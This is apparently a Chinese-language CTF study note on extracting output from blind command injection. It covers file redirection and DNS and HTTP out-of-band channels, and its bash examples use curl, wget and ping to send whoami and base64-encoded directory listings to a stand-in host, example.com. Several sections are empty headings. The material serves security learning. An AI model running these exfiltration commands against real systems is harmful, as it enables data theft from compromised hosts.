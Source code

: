 ### 无回显

- 反弹 shell

<https://your-shell.com/>

- 结果写入文件，二次返回

主要利用是输出重定向符号`>`将标准输出重定向到`可写`、`可访问`的目录下。

```bash
# 将输出结果保存到当前目录下的1.txt文件
ls -al>1.txt
```

- DNS 信道

利用 DNS 解析特殊构造的域名，通过查看 DNS 解析记录获得结果。平台有 [dnslog.cn](http://dnslog.cn/)、[https://requestrepo.com/](https://requestrepo.com/)

```bash
ping `whoami`.example.com
curl `whoami`.example.com
wget -O- `ls|base64`.example.com
```

- HTTP 信道

利用 HTTP 协议，GET 或 POST 请求，获取结果。通常，如果数据量大，通过 POST 方法。

[https://requestrepo.com/](https://requestrepo.com/)

```bash
# 通过URL传送
curl example.com/`whoami`
curl example.com/`ls|base64`
wget -O- example.com/`ls|base64`

# 通过POST
curl -X POST --data `ls|base64` example.com
wget --post-data "$(ls|base64)" -O- example.com
```

- 延时

## 经典赛题分析

## 参考资料

- <https://book.hacktricks.xyz/v/cn/linux-hardening/bypass-bash-restrictions>
- <https://github.com/PortSwigger/command-injection-attacker/blob/master/README.md>

- <https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html>
- <https://cwe.mitre.org/data/definitions/77.html>
- <https://paper.seebug.org/164/>
